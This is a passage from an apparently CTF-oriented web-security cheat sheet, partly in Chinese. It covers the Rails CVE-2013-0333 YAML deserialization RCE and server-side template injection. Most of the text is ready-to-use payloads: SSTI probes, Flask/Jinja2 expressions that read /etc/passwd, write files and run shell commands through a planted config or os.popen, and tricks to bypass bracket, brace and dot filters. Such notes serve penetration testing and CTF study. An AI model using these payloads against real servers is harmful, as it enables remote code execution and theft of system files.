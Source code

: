       table:  
       :defaults: {}  
    </bingo>

    }.strip
    ```
- CVE-2013-0333
    - Rails 2.3.x和3.0.x中，允许`text/json`的request转成`YAML`解析
    - `Yaml`在Rails 3.0.x是预设的`JSON Backend`
    - 出问题的地方在于`YAML.load`前的`convert_json_to_yaml`，他不会检查输入的JSON是否合法
    - 一样可以透过`ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access`的`module_eval`来RCE

## Java Deserialization

- https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet


# SSTI 

Server-Side Template Injection

![img](https://i.imgur.com/GVZeVq6.png)

## Testing
- ` {{ 7*'7' }}`
    - Twig: `49`
    - Jinja2: `7777777`
- `<%= 7*7 %>`
    - Ruby ERB: `49`
- `<%="#{1234*1234}”%>`
- `="#{1234*1234}"`

## Flask/Jinja2
- Dump all used classes
    - `{{ ''.__class__.__mro__[2].__subclasses__() }}
`
- Read File
    - `{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}`
- Write File
    - `{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt', 'w').write('Kaibro Yo!')}}`
- RCE
    - `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}`
        - evil config
    - `{{ config.from_pyfile('/tmp/evilconfig.cfg') }}`
        - load config
    - `{{ config['RUNCMD']('cat flag',shell=True) }}`

- RCE (another way)
        - `{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls').read()}}`
- 过滤中括号
    - `__getitem__`
    - `{{''.__class__.__mro__.__getitem__(2)}}`
        - `{{''.__class__.__mro__[2]}}`
- 过滤`{{` or `}}`
    - 用`{%%}`
    - 执行结果往外传
- 过滤`.`
    - `{{''.__class__}}`
        - `{{''['__class__']}}`
        - `{{''|attr('__class__')}}`